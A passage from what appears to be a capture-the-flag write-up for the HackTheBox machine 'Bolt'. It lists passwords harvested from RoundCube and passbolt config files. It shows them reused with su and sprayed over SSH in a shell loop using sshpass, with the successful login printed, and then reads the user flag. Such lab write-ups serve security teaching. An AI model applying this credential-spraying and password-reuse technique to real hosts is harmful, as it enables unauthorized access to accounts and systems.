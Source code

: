   RoundCube         `/var/www/roundcube`   `config/config.inc.php`   WXg5He2wHt4QYHuyGET

  passbolt          `/etc/passbolt`\*      `passbolt.php`            rT2;jW7\<eY8!dX8}pQ8%
  ------------------------------------------------------------------------------------------

\*The actual webroot is `/usr/share/php/passbolt/webroot`, but
`/etc/passbolt` is also included, and it has the config file.

### su / SSH

I tried a bunch of these passwords with both eddie and clark, and the
combination of eddie / rT2;jW7\<eY8!dX8}pQ8% worked:



    www-data@bolt:/etc/nginx/sites-enabled$ su - eddie
    Password: 
    eddie@bolt:~$



I could also do this in a loop over SSH:



    for u in clark eddie; do 
      for p in $(cat passwords); do 
        sshpass -p "$p" ssh ${u}@10.10.11.114 -f 'exit' && 
        echo "Success! User: $u Pass: $p"; 
      done; 
    done



This will get each combination of user and password, and try to SSH to
Bolt. The session is running exit immediately after a successful
connection, so if that happens, it will exit successfully and print the
message. It finds a working set of creds:



    oxdf@hacky$ for u in clark eddie; do for p in $(cat passwords); do sshpass -p "$p" ssh ${u}@10.10.11.114 -f 'exit' && echo "Success! User: $u Pass: $p"; done; done
    Permission denied, please try again.
    Permission denied, please try again.
    Permission denied, please try again.
    Permission denied, please try again.
    Permission denied, please try again.
    Permission denied, please try again.
    Permission denied, please try again.
    Success! User: eddie Pass: rT2;jW7<eY8!dX8}pQ8%



Either way, I can get `user.txt`:



    eddie@bolt:~$ cat user.txt
    8403ba4b************************


